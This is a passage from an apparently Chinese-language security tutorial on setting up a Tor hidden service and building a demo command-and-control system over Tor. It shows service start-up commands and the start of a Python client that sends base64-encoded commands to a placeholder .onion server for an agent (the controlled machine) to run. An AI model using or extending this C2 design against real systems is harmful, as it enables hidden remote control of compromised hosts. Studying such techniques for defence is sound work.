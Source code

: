 启动服务

```bash
systemctl start tor
systemctl start php7.3-fpm
systemctl start nginx
```

如果一切正常，那么/var/lib/tor/hidden_service/hostname内就会出现你的hostname了，如果该文件或目录不存在，检查Tor服务启动情况，是否报错。在Tor browser中应当可以通过该XXXX.onion的url访问/var/www/tor中的资源。

## 0x03 经由Tor网络进行C2通信

我们首先从头开始设计一个走Tor网络通信的demo。在这个demo中，角色分为三个，client(控制端)、server(服务端)、agent(被控制端)。

一个简单的思路是，client可以把任务上传到server，并可以从server或取该任务的执行结果；agent从server获取任务，将任务执行，之后将执行结果返回到server。

为了简单明了，这里就不搞什么队列、生产者消费者这些乱七八糟的了，我们直接用PHP和Python糊一个简单的demo。

client代码：

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-
"""
File:   :   client.py
Time    :   2021/08/17 09:32:13
Author  :   Hack3rHan
Contact :   i@010.moe
"""
import base64
import requests


class Client(object):
    # Tor browser proxy
    proxy = {
        'http': 'socks5h://127.0.0.1:9150',
        'https': 'socks5h://127.0.0.1:9150'
    }
    url = 'http://examplexxxxxxxxx.onion/server.php'

    # Tor2web
    tor2web_url = 'http://examplexxxxxxxxx.onion.ws/server.php'


    def put_task(self, cmd:str) -> None:
        data = {
            'identity': 'client',
            'action': 'put',
            'data': base64.b64encode(cmd.encode('utf-8')).decode('utf-8')
        }
        try:
            resp = requests.post(url=self.url, proxies=self.proxy, data=data, timeout=30)
        except Exception:
            print("[!] ERROR: Can not connect to TOR.")
            return
        print(resp.text)

    def get_res(self) -> None:
        data = {
            'identity': 'client',
            'action': 'get',
        }
        try:
            resp = requests.post(url=self.url, proxies=self.proxy, data=data, timeout=30)
        except Exception:
```